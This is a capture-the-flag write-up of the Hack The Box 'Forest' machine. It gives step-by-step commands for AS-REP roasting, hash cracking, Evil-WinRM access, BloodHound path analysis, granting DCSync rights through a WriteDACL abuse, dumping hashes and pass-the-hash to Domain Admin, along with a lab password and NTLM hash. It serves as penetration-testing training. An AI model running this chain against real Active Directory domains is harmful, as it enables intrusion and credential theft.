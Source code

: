 
````markdown
# Forest CTF Room Writeup

**Target**: forest.htb  
**Goal**: Initial access via Kerberoasting, privilege escalation through ACL abuse and BloodHound path analysis, final compromise by dumping Domain Admin hash.

---

## 1. Initial Enumeration

Started with SMB enumeration using `enum4linux`:

```bash
enum4linux -a 10.10.10.161
```

Found valid usernames:

```
Administrator
Guest
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

---

## 2. Kerberoasting → Credential Extraction

Queried for SPNs to identify accounts with service tickets using:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -request
```

This returned an AS-REP encrypted hash for `svc-alfresco`.

Cracked it with Hashcat:

```bash
hashcat -m 18200 hash.txt rockyou.txt --force
```

✅ Recovered password for `svc-alfresco`: `s3rvice`

---

## 3. Gained Initial Foothold

Logged in using Evil-WinRM with the cracked credentials:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

📥 Retrieved `user.txt`.

---

## 4. BloodHound Enumeration

Used `bloodhound-python` to gather Active Directory data:

```bash
bloodhound-python -u svc-alfresco -p s3rvice -d htb.local -ns 10.10.10.161 -c All --zip
```

Imported results into BloodHound.

📊 Discovered the following privilege path:

```
svc-alfresco
   ↓ (Member of)
Account Operators
   ↓ (GenericAll)
Exchange Admins
   ↓ (WriteDACL)
Domain Object (DC=htb,DC=local)
```

🔓 Meaning: if we control `Exchange Admins`, we can give **anyone** DCSync rights and dump hashes.

---

## 5. Exploitation via ACL Abuse

### 5.1 Created a new domain user:

```powershell
net user myuser mypass /add /domain
```

### 5.2 Added `myuser` to `Exchange Admins` group:

```powershell
net group "Exchange Admins" myuser /add /domain
```

### 5.3 Logged in as `myuser`:

```bash
evil-winrm -i 10.10.10.161 -u myuser -p mypass
```

---

## 6. Abuse WriteDACL → Grant DCSync Rights

Uploaded and imported PowerView:

```powershell
upload /path/to/PowerView.ps1
. .\PowerView.ps1
```

Built a credential object:

```powershell
$SecPassword = ConvertTo-SecureString 'mypass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\myuser', $SecPassword)
```

Granted DCSync rights to `myuser`:

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "myuser" -Rights DCSync
```

---

## 7. Dumped Domain Hashes

Using Impacket:

```bash
impacket-secretsdump htb.local/myuser:mypass@10.10.10.161
```

✅ Dumped hash for `Administrator`:

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

---

## 8. Domain Admin Access (Pass-the-Hash)

Used the Administrator NTLM hash to gain shell:

```bash
impacket-wmiexec htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

🎉 **Gained full Domain Admin access**

---

## 9. Final Result

🪣 Dumped all domain user hashes  
🧠 Took control of the entire Active Directory domain  
🏁 Retrieved `root.txt` as Domain Administrator

---
## 🏁 Summary

| Step | Technique |
|------|-----------|
| 1 | Enumerated usernames via SMB |
| 2 | Performed AS-REP roasting to crack svc-alfresco |
| 3 | Gained user shell via Evil-WinRM |
| 4 | Used BloodHound to discover ACL privilege path |
| 5 | Created user and added to Exchange Admins |
| 6 | Abused WriteDACL to assign DCSync rights |
| 7 | Dumped Administrator hash |
| 8 | Logged in as Domain Admin (Pass-the-Hash) |

**A perfect example of a no-exploit, misconfiguration-based full domain compromise.**
````

